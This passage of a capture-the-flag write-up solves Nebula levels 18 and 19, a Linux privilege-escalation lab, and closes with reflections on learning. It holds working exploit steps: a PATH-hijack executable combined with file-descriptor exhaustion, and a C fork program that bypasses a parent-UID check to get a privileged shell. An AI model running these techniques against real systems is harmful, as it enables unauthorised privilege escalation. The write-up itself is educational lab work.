	./flag18: invalid option -- 'i'
	./flag18: invalid option -- 'l'
	./flag18: invalid option -- 'e'
	/tmp/flag18/debug: line 1: Starting: command not found
	/tmp/flag18/debug: line 2: syntax error near unexpected token `('
	/tmp/flag18/debug: line 2: `logged in successfully (without password file)'

Heavens, it worked - sort of. Notice the */tmp/flag18/debug: line 1: Starting: command not found*? That's because our *rcfile* is set to be our debug file. So 
it writes to the debug file and then the shell will try to execute it. As we know
the first line in the file is *Starting up. Verbose level = 1*, so all we really
need to do to quash that error we need to create an executable with that name.
Inside that we will run out beloved :code:`getflag`

.. code:: console

	level18@nebula:/home/flag18$ echo getflag > /tmp/Starting
	level18@nebula:/home/flag18$ chmod +x !$
	chmod +x /tmp/Starting
	level18@nebula:/home/flag18$ export PATH=${PATH}:/tmp
	level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 --rcfile -d /tmp/flag18/debug
	./flag18: invalid option -- '-'
	./flag18: invalid option -- 'r'
	./flag18: invalid option -- 'c'
	./flag18: invalid option -- 'f'
	./flag18: invalid option -- 'i'
	./flag18: invalid option -- 'l'
	./flag18: invalid option -- 'e'
	You have successfully executed getflag on a target account
	/tmp/flag18/debug: line 2: syntax error near unexpected token `('
	/tmp/flag18/debug: line 2: `logged in successfully (without password file)'

The harder ways are beyond what I can do, but for those interested in 
circumventing `FORTIFY_SOURCE` you can read `A Eulogy for Formatting Strings <http://phrack.org/issues/67/9.html>`_. I'll be re-reading that for sure.

Flag 19
----------

    There is a flaw in the below program in how it operates. 

.. code:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	#include <fcntl.h>
	#include <sys/stat.h>
	
	int main(int argc, char **argv, char **envp)
	{
	  pid_t pid;
	  char buf[256];
	  struct stat statbuf;
	
	  /* Get the parent's /proc entry, so we can verify its user id */
	
	  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());
	
	  /* stat() it */
	
	  if(stat(buf, &statbuf) == -1) {
	    printf("Unable to check parent process\n");
	    exit(EXIT_FAILURE);
	  }
	
	  /* check the owner id */
	
	  if(statbuf.st_uid == 0) {
	    /* If root started us, it is ok to start the shell */
	
	    execve("/bin/sh", argv, envp);
	    err(1, "Unable to execve");
	  }
	
	  printf("You are unauthorized to run this program\n");
	}

So we can get the shell we want if we can run this as root. How can we do that?
This exploits involves a knowledge of Linux forks. Basically if a process
forks and the parent dies, the child will automatically be run under :code:`init`.
This is called `Fork off and die <http://wiki.linuxquestions.org/wiki/Fork_off_and_die>`_. So who does `init` run as?

.. code:: console

	level19@nebula:/tmp/flag19$ ps aux | grep init
	root         1  0.0  0.6   3196  1512 ?        Ss   00:32   0:00 /sbin/init

In order to make use of this we need to run :code:`flag18` as a forked process and
then kill the parent. The arguments to :code:`flag18` are passed onto the shell
it executes, and thus we can make use of this. I'll write some C code
to fork the :code:`flag18` process to which we will pass the :code:`getflag`. It should
work.

.. code:: C

	#include <unistd.h>
	
	int main(int argc, char **argv, char **envp) {
	    int childPID = fork();
	    if(childPID >= 0) { // forked
	        if(childPID == 0) { // child
	            sleep(1);
	            setresuid(geteuid(),geteuid(),geteuid());
	            char *args[] = {"/bin/sh", "-c", "/bin/getflag", NULL};
	            execve("/home/flag19/flag19", args, envp);
	        }
	    }
	    return 0;
	}

Get the idea? Right, let's taste this pudding

.. code:: console

	level19@nebula:/tmp/flag19$ gcc forkit.c -o forkit
	level19@nebula:/tmp/flag19$ ./forkit
	level19@nebula:/tmp/flag19$ You have successfully executed getflag on a target account

**Nebula done.** 

Closing words
----------------

Firstly: Thanks for taking the time to read this. Please leave any feedback or
comments below (or twitter/email if you prefer).

Secondly: If you are here because you are also playing *Nebula* and are
new to this like I am, this write up might seem like magic. 
You're struggling to figure out how to get past a certain
level and then this text makes it seem like magic. 

It's not like that. I spent a lot of time working through the later levels as I
quickly learned how little I knew. Much time was spent researching and learning
about things I thought I already knew. Turns out I knew very little about them. 
There were a lot of failures on the way, but if I kept those in, this post 
would be much much longer. The thought process seems very simple in write ups,
but trust me, there's quite a bit of puzzling and thinking to do.

It's early days for me too, and I very much enjoyed *Nebula*, and have a whole
new set of tools and ideas in my arsenal for the next challenge.
